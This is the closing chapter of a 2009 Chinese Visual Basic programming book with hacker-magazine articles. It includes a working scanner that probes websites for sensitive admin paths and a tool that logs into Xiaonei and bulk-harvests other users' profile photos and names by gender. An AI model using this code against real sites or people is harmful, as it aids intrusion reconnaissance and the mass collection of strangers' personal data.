    Dim objwindow As Object
    Dim urlFound As String
    For Each objwindow In IEwindow
        ' 用户当前窗口是一个浏览器窗口
        If InStr(ForeTitle, objwindow.LocationName) Then
            urlFound = objwindow.LocationURL
            If Left(urlFound, 7) = "http://" Then
                ' 防止 Inet 还在连接，等待执行完操作
                While InetCheckWebSources.StillExecuting
                    DoEvents
                Wend

                ' 将连接过的地址保存到 Inet 的 Tag 中，防止重复连接当前地址
                If InetCheckWebSources.Tag <> urlFound Then
                    InetCheckWebSources.Execute urlFound, "get"
                    InetCheckWebSources.Tag = urlFound
                    Me.Caption = "正在连接" & urlFound
                End If
            End If
            Exit For
        End If
    Next
End Sub
```

当发现用户正在浏览一个 HTTP 页面时，我们用 Inet 控件来连接这个 URL 获取其源代码，判断有无非法字符存在，为 Inet 控件添加如下代码：

```vb
Private Sub InetCheckWebSources_StateChanged(ByVal State As Integer)
    If State = 12 Then
        Dim stemp As String, sall As String
        stemp = InetCheckWebSources.GetChunk(1000)
        While stemp <> ""
            sall = sall & stemp
            stemp = InetCheckWebSources.GetChunk(1000)
        Wend

        For i = 0 To ComboParentsControl.ListCount - 1
            If InStr(sall, ComboParentsControl.List(i)) Then   ' 发现了关键字
                ' 用户当前窗口还没有改变
                If ForgroundWindowHwnd = GetForegroundWindow() Then
                    PostMessage ForgroundWindowHwnd, WM_CLOSE, 0, 0   ' 关闭当前的这个窗口
                End If
            End If
        Next i

        Me.Caption = Me.Caption & " 完成！"   ' 改变窗口标题，提示连接完成
    ElseIf State = 11 Then
        InetCheckWebSources.Cancel            ' 如果连接出错则退出 Inet 进程
    End If
End Sub
```

### 6.8.3 总结

至此，代码的编写工作结束，我们可以想出更多的方法来完善程序。比如，当非法字符不存在于窗口标题中，也不存在于网页源文件之中时，则可以设法使用 EnumChildWindows 来枚举子窗口并获取其内容，判断内容是否合法。这里为大家建立了一些基本的方法可供参考。（本文已发表于《黑客防线》2009 年第 7 期）

## 6.9 用 VB 编写 404 自定义增强后台扫描工具

几乎所有的注入工具中都集成了后台扫描的功能，但是这些工具多半是根据返回的 HTTP 标头来判断页面是否存在的，如果返回的不是 404，就判定页面存在，这样做有非常大的局限性。如果网站自定义了 404 出错页，那么所有页面返回的 HTTP 标头都是 200（成功），程序就会判定所有的页面都存在。这也是“啊D 注入工具”和“明小子旁注工具”的一大 BUG。如图 6-20 和图 6-21 所示，我使用自己的网站作为示例，啊D 和明小子列出了所有预设的连接。今天我们用 VB 编写一个小程序，克服一般扫描器中的 404 自定义的缺陷。


### 6.9.1 了解一下 HTTP 头

我们先来了解一下各种 HTTP 头都表示什么意思。返回 200 表示页面存在，404 表示文件不存在，403 表示拒绝访问或者拒绝列目录。大家可以参考一下详细的列表：

- 400——错误的请求。
- 401——访问被拒绝。IIS 定义了许多不同的 401 错误，它们指明更为具体的错误原因。这些具体的错误代码在浏览器中显示，但不在 IIS 日志中显示：
  - 401.1——登录失败。
  - 401.2——服务器配置导致登录失败。
  - 401.3——由于 ACL 对资源的限制而未获得授权。
  - 401.4——筛选器授权失败。
  - 401.5——ISAPI/CGI 应用程序授权失败。
  - 401.7——访问被 Web 服务器上的 URL 授权策略拒绝，这个错误代码为 IIS 6.0 所专用。
- 403——禁止访问；IIS 定义了许多不同的 403 错误，它们指明更为具体的错误原因：
  - 403.1——执行访问被禁止。
  - 403.2——读访问被禁止。
  - 403.3——写访问被禁止。
  - 403.4——要求 SSL。
  - 403.5——要求 SSL 128。
  - 403.6——IP 地址被拒绝。
  - 403.7——要求客户端证书。
  - 403.8——站点访问被拒绝。
  - 403.9——用户数过多。
  - 403.10——配置无效。
  - 403.11——密码更改。
  - 403.12——拒绝访问映射表。
  - 403.13——客户端证书被吊销。
  - 403.14——拒绝目录列表。
  - 403.15——超出客户端访问许可。
  - 403.16——客户端证书不受信任或无效。
  - 403.17——客户端证书已过期或尚未生效。
  - 403.18——在当前的应用程序池中不能执行所请求的 URL。这个错误代码为 IIS 6.0 所专用。
  - 403.19——不能为这个应用程序池中的客户端执行 CGI。这个错误代码为 IIS 6.0 所专用。
  - 403.20——Passport 登录失败。这个错误代码为 IIS 6.0 所专用。
- 404——未找到。
- 404.0（无）——没有找到文件或目录。
- 404.1——无法在所请求的端口上访问 Web 站点。
- 404.2——Web 服务扩展锁定策略阻止本请求。
- 404.3——MIME 映射策略阻止本请求。
- 405——用来访问本页面的 HTTP 谓词不被允许（方法不被允许）。
- 406——客户端浏览器不接受所请求页面的 MIME 类型。
- 407——要求进行代理身份验证。
- 412——前提条件失败。
- 413——请求实体太大。
- 414——请求 URI 太长。
- 415——不支持的媒体类型。
- 416——所请求的范围无法满足。
- 417——执行失败。
- 423——锁定。


### 6.9.2 程序实现的原理

程序实现的原理是，我们任意抓取一个不存在的页面。比如说 hacker123456789.html。如果返回的 HTTP 标头不是 404，则表明其 404 页面已经自定义。此时从返回数据中取出前 500 字节数据作为关键字符，之后在扫描每一个连接的时候，直接将返回数据的前 500 字节数据与之对照，如果相同，则表明文件不存在，如果不相同，则文件存在。

### 6.9.3 编程实现

控件的布局如图 6-22 所示。我们需要两个列表框、两个文本框，还有两个 inet 控件（其中一个用于检测是否为 404 自定义，一个用于扫描进程），另外添加一个按钮。需要扫描的连接我们保存在一个文本中，文件名为 datafile.inf，每行一个连接，便于读取，如图 6-23。下面我们来看看关键的代码，首先声明三个全局变量 scount、key404、yes404：

# 第六章 综合应用

```vb
Dim scount As Integer    ' 表示当前正在扫描的连接数目
Dim key404 As Boolean    ' 表示404是否为自定义，是布尔值
Dim yes404 As String     ' 自定义404页面的关键字
```

我们为按钮添加事件：

```vb
Private Sub Command1_Click()
    If Command1.Caption = "开始扫描" Then
        Command1.Caption = "暂停扫描"          ' 改变按钮的 Caption
        Label3.Caption = "正在检测是否404自定义"  ' 状态栏给出提示
    Else
        Command1.Caption = "开始扫描"
        Inet1.Cancel                          ' 强制退出 Inet1
        scount = 0                            ' 将扫描的连接数置 0
        Label3.Caption = "扫描进程已经停止"
        Exit Sub
    End If

    List1.Clear                               ' 将结果列表框清空
    ' 下面对输入的地址进行判断和转换
    Dim url1, okurl As String
    url1 = Trim(Text1.Text)                   ' 首先去掉空格

    If LCase(Mid(url1, Len(url1) - 2, 3)) = "com" Or _
       LCase(Mid(url1, Len(url1) - 2, 3)) = "net" Or _
       LCase(Mid(url1, Len(url1) - 1, 2)) = "cn" Then
        ' 如果是直接给出的域名，在后面加上分隔符
        Text1.Text = Text1.Text & "/"
    Else
        ' 如果不是直接给出的域名，那么继续处理
        Dim tolocate As Integer
        For I = 1 To Len(Text1.Text)
            If Mid(Text1.Text, I, 1) = "\" Or Mid(Text1.Text, I, 1) = "/" Then
                tolocate = I
            End If
        Next                                  ' 用 For 循环取得最后一个分隔符 "/" 和 "\" 的位置
        Text1.Text = Mid(Text1.Text, 1, tolocate)
    End If

    Inet2.Cancel                              ' Inet2 强制退出
    ' 访问一个不存在的连接，判断是否为 404 自定义
    Inet2.Execute Text1.Text & "bingyulianke11111111111111111.asp"
    If Inet1.StillExecuting Then              ' 如果 Inet1 正忙，让其继续执行
        DoEvents
        Inet1.Cancel
    End If
End Sub
```

下面的代码是窗体载入事件的：

```vb
Private Sub Form_Load()
    ' 首先从 datafile.inf 载入敏感目录和文件夹列表
    Open App.Path & "\datafile.inf" For Input As #1
    While Not EOF(1)
        Line Input #1, toinput
        List2.AddItem toinput
    Wend
    Inet1.Cancel
End Sub
```

当 Inet1 的状态改变时，触发以下事件：

```vb
Private Sub Inet1_StateChanged(ByVal State As Integer)
    If scount >= List2.ListCount Then
        MsgBox "所有连接已经检测完毕", VBInformation, "敏感目录及文件扫描——冰域剑客 Bingker Union"
        Label3.Caption = "所有连接已经检测完毕"
        Command1.Caption = "开始扫描"
        scount = 0                 ' 将 scount 置 0，准备下一次检测
        Inet1.Cancel               ' cancel Inet1
        Exit Sub                   ' 退出 Sub 过程
    End If
    If State = 12 Then            ' 如果已经完全接收到数据
        Label3.Caption = "正在检测：" & Text1.Text & List2.List(scount)
        If InStr(Inet1.GetHeader, "404") Then
            scount = scount + 1
            Inet1.Execute Text1.Text & List2.List(scount)
        Else                      ' 如果没有出现 404
            If Inet1.GetChunk(500) = yes404 Then   ' 如果是 404 自定义页面
                scount = scount + 1
                Inet1.Execute Text1.Text & List2.List(scount)   ' 继续扫描下一个连接
            Else
                List1.AddItem Text1.Text & List2.List(scount)
                scount = scount + 1
                Inet1.Execute Text1.Text & List2.List(scount)
            End If
        End If
    End If
End Sub
```

下面是 Inet2 判断网站是否是 404 自定义的代码，此处尤为关键：

```vb
Private Sub Inet2_StateChanged(ByVal State As Integer)
If State = 12 Then
    If InStr(Inet2.GetHeader, "404") Then         ' 如果 404 页面不是自定义的
        Inet1.Execute Text1.Text & List2.List(0)  ' 开始 Execute 之后就只管 StateChange 事件
        key404 = False                             ' key404 的布尔值是 False
    Else
        key404 = True                              ' key404 为 True，表示自定义
        yes404 = Inet2.GetChunk(500)               ' 500 个字节的关键字符
        Inet1.Execute Text1.Text & List2.List(scount) ' 扫描下一个连接
    End If
End If
End Sub
```

双击扫描结果中项目，打开这个连接：

```vb
Private Sub List1_DblClick()
    Shell ("explorer.exe " & List1.Text), VBNormalFocus
End Sub
```

图 6-24 检验扫描程序

### 6.9.4 总结

程序编译之后，我们用来检验一下效果。如图 6-24，可以正确地检测到连接，克服了其他扫描工具的缺陷。单从这个方面来讲，它是不是要比啊D注入工具和明小子旁注工具更准确呢！

到此也可以给大家一些启发，在使用别人编写的工具时，也要注意发现问题，并善于利用自己已有的知识去解决问题。我相信，本书的读者朋友们可以在追求技术高峰的道路上有所突破！（本文发表于《黑客防线》08年第12期）

### 6.10 VB外挂之校内网头像批量下载器

在校内网（现更名为人人网）兴起和流行的同时，校内外挂这一事物也出现了。目前出现的校内外挂大多依赖于其中的某一个应用，可以让用户获得较高的积分或者名次。然而今天我想介绍的这个程序，则不依赖于任何一个应用，它的功能是让用户选择并批量下载其他人的头像。

### 6.10.1 程序实现的原理

想要批量下载头像，则需要使用一定的方法进行图片检索。我在观察了搜索页面的多个连接之后，选定了 `http://browse.xiaonei.com/b.do` 这个页面。选定它的理由是，每次搜索出来的结果都是随机的，而如果选择其他页面进行搜索，则搜索出来的结果是一定的，又由于校内网最多只能显示前500条搜索结果，这就意味着我们的程序将只能下载500张图片，但只能下载500张头像的程序，明显是不够强大的。搜索时我们会以 GET 方式向 b.do 提交一个非常重要的参数 gender，gender 的值可以是“男生”或者“女生”。如此一来，我们便可以选择只下载男生或者女生的照片。搜索之后，我们可以得到一个页面的 HTML 代码，在这些代码中，我们便可以获取一些必要的信息，例如：姓名、学校、头像地址等。校内网的头像 URL 有一个非常大的特点，都是以 `http://hd` 开头的，这一点在程序中可以被运用到。程序收集整理好这些信息后，再批量下载，便可以实现所有的功能。

### 6.10.2 程序的具体实现

程序的窗体和控件布局如图 6-25 所示。需要使用到的主要控件为 1 个 Timer 控件，1 个 Inet 控件，1 个 WebBrowser 控件（高和宽设置成了1，不可见），7 个按钮，3 个 ListBox，2 个 TextBox 和两个 OptionButton。OptionButton 的属性都设置成 sex，可以让用户选择性别。其中一个列表框 namelist 用于存放校内用户的名字和所在网络，而 listpic 列表框用于存放头像的 URL。

程序运行的第一步是让用户输入用户名和密码进行登录，我这里选择了使用 WebBrowser 来登录，然而 WebBrowser 控件却不支持直接以 POST 方法提交数据的，那么我们就间接地提交吧。先在本地生成一个 HTML 临时文件，然后用 WebBrowser 打开这个文件提交。根据我从校内网上提取的登录表单，我们可以为登录按钮添加以下代码：

```vb
Private Sub Command1_Click()
If Text1.Text <> "" And Text2.Text <> "" Then
    List1.AddItem " 程序开始尝试登陆 "
    check = 1
    ' 在当前目录下生成临时文件 temp.html
    Open App.Path & "\temp.html" For Output As #1
    Print #1, "<form name=xiaonei action=http://login.xiaonei.com/Login.do method=post>"
    ' 邮箱
    Print #1, "<input type=text name=email value=" & Trim(Text1.Text) & ">"
    ' 密码
    Print #1, "<input type=password name=password value=" & Trim(Text2.Text) & ">"
    Print #1, "<input type=submit>"
    Print #1, "</form>"
    Close #1
    ' 使用 WebBrowser 打开临时文件 temp.html
    WebBrowser1.Navigate App.Path & "\temp.html"
Else
    MsgBox " 邮箱和密码都不能为空! 您的输入有误! ", VBCritical, " 校内网头像批量下载器 Beta 1.0"
End If
End Sub
```

上面的代码中存在一个 check 变量，而这个变量是需要在程序的通用部分进行声明的，它是一个全局变量，用来存放当前的程序状态，下面的代码为所有的全局变量声明：

```vb
Dim check As Integer
Dim serchurl As String
Dim login As Boolean
Dim nothaveadd As Boolean
Dim strsex As String
Dim havedown As Integer
Option Explicit
```

用户登录时，我们用 WebBrowser 打开临时文件 temp.html，在 WebBrowser 的 DocumentComplete 事件中可以添加相应的代码提交表单，而当网页中的内容改变时，则需要进行更多的操作：

```vb
Private Sub WebBrowser1_DocumentComplete(ByVal pDisp As Object, url As Variant)
    Select Case check
    Case 1
        On Error Resume Next
        ' 将 xiaonei 这个表单提交出去进行登陆
        WebBrowser1.Document.Forms("xiaonei").submit
        check = 2
    Case 2
        Dim spe As String
        spe = WebBrowser1.Document.body.innerhtml
        ' 如果其中有相应错误提示的文字
        If InStr(spe, " 登录账号或密码错误，请重试 ") Then
            MsgBox " 您输入的账号或密码有错,请重新输入!! ", VBCritical, " 校内网头像批量下载器 Beta 1.0"
            List1.AddItem " 用户名或密码错误 "
            check = 1
        Else
            MsgBox "恭喜，您已经成功登陆，请选择条件开始搜索", VBInformation, "校内暗恋秘密图片批量下载器"
            List1.AddItem "账号登陆成功，等待用户选择条件"
            check = 3
            login = True
            Kill App.Path & "\temp.html"
        End If

    Case 3
    Case 4
        On Error Resume Next
        If nothaveadd = True Then
            Dim imgurl 'imgurl 表示图片的地址
            For Each imgurl In WebBrowser1.Document.images
                If InStr(imgurl.src, "http://hd") Then
                    Listpic.AddItem imgurl.src
                End If
            Next
            Dim username, username1, username2
            Dim i As Integer
            Set username = WebBrowser1.Document.getElementsByTagName("dl")
            For i = 0 To 9
                Set username1 = username(i).getElementsByTagName("dd")
                namelist.AddItem Trim(username1(0).innertext) & "(" & Trim(username1(1).innertext) & ")"
            Next
            nothaveadd = False
        End If
        Timer1.Enabled = True
    Case 999
        If WebBrowser1.Document.url = "http://www.xiaonei.com/SysHome.do" Then
            List1.AddItem "您的校内账号已经退出"
            MsgBox "您的校内账号已经成功退出", VBInformation, "校内网头像批量下载器Beta 1.0"
            login = False
        End If
    End Select
End Sub
```

上面的代码是非常关键的，用它可以判断当前用户的登录状态，获取当前页面中的信息，以及在列表中添加相应的项。登录成功之后用户需要单击“开始检索图片”按钮，这里为它添加如下代码：

```vb
If login = True Then
    If sex(0).Value = True Then
        strsex = UCS2UTF8("女生")
    Else
        strsex = UCS2UTF8("男生")
    End If
    ' 得到搜索相应校内用户的地址
    serchurl = "http://browse.xiaonei.com/b.do?...&gender=" & strsex & "..."
    WebBrowser1.Navigate serchurl
    List1.AddItem "正在根据用户选择进行图片搜索,第一次搜索速度较慢，请等待!"
Else
    MsgBox "请您先使用账号登陆，目前您还没有登陆校内", VBInformation, "校内网头像批量下载器 Beta 1.0"
    nothaveadd = True
    check = 4
End If
End Sub
```

值得注意的是，校内网中地址绝大多数是以 UTF-8 方式编码的，我在模块中声明了一个——一个过程 `USC2UTF8()`，用它可以完成对地址的转码，相应的代码为：

```vb
Function USC2UTF8(ByVal HZ As String) As String
    Dim i As Integer
    Dim str_Char As String
    Dim DAT(2) As Byte
    Dim DAT1() As Byte
    USC2UTF8 = VBNullString
    For i = 1 To Len(HZ)
        str_Char = Mid(HZ, i, 1)
        If AscW(str_Char) > &H0 And AscW(str_Char) < &H800 Then
            USC2UTF8 = USC2UTF8 & str_Char
        Else
            ' 按照 FFFF FFFF 转换为二进制的 1110xxxx 10xxxxxx 10xxxxxx
            ReDim DAT1(1) As Byte
            DAT1 = str_Char
            DAT(0) = (DAT1(1) And 240) / 16 Or 224
            DAT(1) = (DAT1(1) And 15) * 4 + ((DAT1(0) And 192) / 64) Or 128
            DAT(2) = DAT1(0) And 63 Or 128
            USC2UTF8 = USC2UTF8 & "%" & CStr(Hex(DAT(0))) & "%" & CStr(Hex(DAT(1))) & "%" & CStr(Hex(DAT(2)))
        End If
    Next
End Function
```

我们之所以要添加一个 `Timer` 控件，是为了使程序循环进行下去，而且在收集图片的过程中有相对合理的时间间隔。`Timer` 控件对应的代码为：

```vb
Private Sub Timer1_Timer()
    ' 改变框架的 caption
    Frame2.Caption = "检索结果：" & "已经检索条目：" & Listpic.ListCount

    ' 如果获取的姓名数目跟图片数目不等，循环移除多余项，从最后一项开始移除
    While namelist.ListCount > Listpic.ListCount
        namelist.RemoveItem namelist.ListCount - 1
        List1.AddItem "网络滞后，程序已自动恢复"
    Wend

    While namelist.ListCount < Listpic.ListCount
        Listpic.RemoveItem Listpic.ListCount - 1
        List1.AddItem "网络滞后，程序已自动恢复"
    Wend

    List1.Selected(List1.ListCount - 1) = True
    WebBrowser1.Navigate serchurl
    nothaveadd = True
    check = 4
End Sub
```

图片收集工作完成后，用户选择“列队下载”，我们为这个按钮添加下面的代码：

```vb
Private Sub Command5_Click()
    MsgBox "下载过程需要消耗一段时间，请您耐心等候，下载完毕会有提示", VBInformation, "校内网头像批量下载器 Beta 1.0"

    Command4_Click    ' 停止图片收集工作

    While namelist.ListCount > Listpic.ListCount
        namelist.RemoveItem namelist.ListCount - 1
    Wend

    While namelist.ListCount < Listpic.ListCount
        Listpic.RemoveItem Listpic.ListCount - 1
    Wend

    On Error Resume Next
    MkDir App.Path & "\\校内头像"
    If namelist.ListCount <> 0 And Listpic.ListCount <> 0 Then
        havedown = 0
        Call downpic(0)
    End If
End Sub
```

在上面的代码中使用到了一个 `downpic` 的过程，这个过程是在当前窗体中声明的，用它可以完成图片的下载，代码如下：

```vb
Private Sub downpic(ByVal picurl As Integer)
    On Error Resume Next
    Dim picname
    If namelist.List(picurl) <> "" Then
        Dim dbdata() As Byte
        dbdata() = Inet1.OpenURL(Listpic.List(picurl), icByteArray)
        While Inet1.StillExecuting
            DoEvents
        Wend

        ' 下面的代码可以将名字中的非法字符处理掉，全部替换成空字符
        picname = namelist.List(picurl)
        picname = Replace(picname, "?", "")
        picname = Replace(picname, "|", "")
        picname = Replace(picname, "/", "")
        picname = Replace(picname, "\\", "")
        picname = Replace(picname, "*", "")
        picname = Replace(picname, ":", "")
        picname = Replace(picname, "<", "")
        picname = Replace(picname, ">", "")

        Open App.Path & "\\校内头像\\" & picname & ".jpg" For Binary Access Write As #1
        Put #1, , dbdata()
        Close #1
    End If

    havedown = havedown + 1
    If havedown + 1 <= namelist.ListCount Then
        Call downpic(havedown)
    Else
        MsgBox "所有图片都已下载完毕!图片保存在文件夹‘校内头像’中!", VBInformation, "校内网头像批量下载器Beta 1.0"
    End If
End Sub
```

由于将列表写入文件的代码十分简单，这里便不再叙述。

### 6.10.3 总结

程序到此编写结束，经过测试，一次性下载 300 张图片是没有问题的，反复操作可以下载几千张不同的头像。大家可以从这个程序中获取的经验是，WebBrowser 的 DocumentComplete 事件在获取网页中的对象时使用是非常普遍的；另外，使用 document 对象获取特定标签中的文本也是网页编程中的重要应用。至于怎样使一个程序循环下去，以及怎样循环下载列表文件，这些实现起来方法还是比较多的。

## 6.11 整合安装的系统更新

利用 VB 查看系统更新，首先需要建立 Update.Session 对象，它的使用相对来说非常简单。

新建一个工程，在窗体中绘制一个按钮和一个 ListBox，如图 6-26 所示。我们为按钮的单击事件添加相应的代码如下：

```vb
Private Sub Command1_Click()
    On Error GoTo OsError:
    List1.Clear
    ' 建立 Update.Session 对象
    Set objSession = CreateObject("Microsoft.Update.Session")
    ' 建立子对象 UpdateSearcher
    Set objSearcher = objSession.CreateUpdateSearcher
    ' 返回历史总数
    intHistoryCount = objSearcher.GetTotalHistoryCount
    ' 返回 History 列对象集合 colHistory
    Set colHistory = objSearcher.QueryHistory(0, intHistoryCount)
    ' 将所有的信息添加到 listbox
    For Each objEntry In colHistory
        List1.AddItem "标题: " & objEntry.Title
        List1.AddItem "描述: " & objEntry.Description
        List1.AddItem "更新日期: " & objEntry.Date

        Select Case objEntry.Operation
            Case 1
                List1.AddItem "操作类型: 安装"
            Case 2
                List1.AddItem "操作类型: 卸载更新"
            Case Else
                List1.AddItem "操作类型: 不确定的操作"
        End Select

        Select Case objEntry.ResultCode
            Case 0
                List1.AddItem "操作结果: 操作还没有开始!"
            Case 1
                List1.AddItem "操作结果: 操作正在进行中..."
            Case 2
                List1.AddItem "操作结果: 操作成功完成."
            Case 3
                List1.AddItem "操作结果: 操作完成, 但在此过程中出现一个或多个错误"
            Case 4
                List1.AddItem "操作结果: 操作失败!未完成."
            Case 5
                List1.AddItem "操作结果: 操作失败.未能进行."
            Case Else
                List1.AddItem "操作结果不确定."
        End Select

        Set objIdentity = objEntry.UpdateIdentity
        List1.AddItem "您的更新ID: " & objIdentity.UpdateID
        List1.AddItem "------------------------------------------------------------"
    Next
    Exit Sub
OsError:
    MsgBox "本程序无法支持您使用的操作系统", VBInformation, Me.Caption
End Sub
```


图 6-26 控件的基本布局


图 6-27 程序运行结果

请读者朋友们注意，XP 操作系统 SP2 以下的操作系统可能都无法成功建立 MS.Update 对象，也就是说无法获取更新列表。我在 Vista 中运行后的结果如图 6-27 所示。

## 6.12 本章小结

这一章为大家介绍了 VB 编程的综合应用，可以看出，VB 的应用是很广泛的，特别是在网络和数据库方面。限于篇幅，有些较大的程序笔者就无法在此处进行介绍了。希望读者朋友们可以反复查看我在光盘中附带的源代码，最终能有所收获，也请大家平时多在网上查找下载优秀的代码，学习别人较好的思路。由于书中部分代码是笔者早期编写的，可能在书写规范上有所不足，请读者朋友们见谅。

写到此处，本书也随之结束了。非常感谢亲爱的读者朋友阅读完本书，希望朋友们能有所收获，在 VB 编程方面有更大的进步。最后是本人的一点看法，既然选择了 VB，就不要抛弃 VB，就应该喜爱它。我相信，聪明的你，一定可以成为 VB 编程开发的高手。

# 后续

关于怎样学习 VB 编程，笔者给朋友们一些自己的建议。

- 1. 首先，本书将 VB 编程划分为了几个专题内容，你可以根据这几个专题来依次学习：先巩固语法基础，接着加强文件编程、网络编程和数据库编程，最后深入了解 API 函数的使用。程序设计者需要有好的创意和大胆的设想，但是，如果没有基础保证，再好的设想都不可能实现。
- 2. 第二，由于个体差异很大，我建议朋友们对自己感兴趣的内容分专题学习。比如，你喜欢网络编程，那么在一定时期内，就可以把网络编程作为一个重点，同时查阅几本图书，比较归纳，吸取几本书中的精华内容。一本书的精华总是有限的，受博众之所长。
- 3. 第三，要充分地保持热情。作为一个程序设计者，需要有源源不断的动力支持着你进步，成就感很重要。到后期，成就感会逐渐减弱，因为很多东西你都会写了，也都写过了，再难找到新鲜的感觉。每个人在程序设计时都会遇到瓶颈，某一天，你可能会认为，唉，我所有东西都学完了，没有进步的空间了！这个想法是完全错误的！多去网上学习他人的经验，下载研究别人的程序，就会使你拥有不竭的动力。
- 4. 第四，任何困难都不是困难。在 VB 编程学习中，我遇到的困难并不少。高三时，我常常一周都很难接触到电脑，那时的我只有在稿纸上写程序，也不能进行调试。就是在这种生活状况下，我还坚持着 VB 的学习。那本书，是我的好朋友花 3 块钱从地摊上买的。这是我很喜欢的一本书，尽管只花了 3 块钱，但是它陪伴我度过了高三那些艰辛的岁月。那时候，在睡眠都严重不足的情况下，我还一直看 VB 的图书。毫不夸张地讲，有段时间我总在卫生间里看 VB 的图书。遇到任何困难，都让我们勇敢地面对！坚持不懈地努力，是成功者必备的素质。
- 5. 第五，是关于实践的问题。请一定要多多练习书中的实例，且最好要有自己的想法，完善书中的程序。一个程序的实现方法，需要熟练的过程，对于较经典的代码，完全可以多次练习。VB 编码是很灵活的，不必太拘束，但也不能太自由，须张弛有度。在纸上写代码并不是完全限制的，因为人一旦坐在电脑前，其思维就可能会被分散；在纸质上写程序，可以集中精神，保证思路的清晰。在实践之前，可以将程序的大体框架画在纸上。我想强调的是，编程也是项体力活，需要精神高度的集中，类似于边听音乐边聊 QQ 边写程序的事情，还是不要做的好。
- 6. 第六，是关于黑客技术的学习。初学者多半是学习工具的使用，了解怎样使用别人编写好的工具，了解漏洞的利用方法然后依葫芦画瓢。但随着学习的深入，须渐渐地尝试自己编写扫描工具，自己挖掘漏洞。学习一两门编程语言是极为重要的，如果连一定的程序基础都没有，谈何漏洞？那个时候，只有所谓的漏洞利用方法，而对漏洞的形成、修复，都是茫茫无助的。至于 VB，初学者容易入门，适合自学，是一种很好的选择。

以上算是笔者个人的一点拙见，希望本书可以对读者朋友有所帮助！

李劼杰

2009 年 11 月于西工大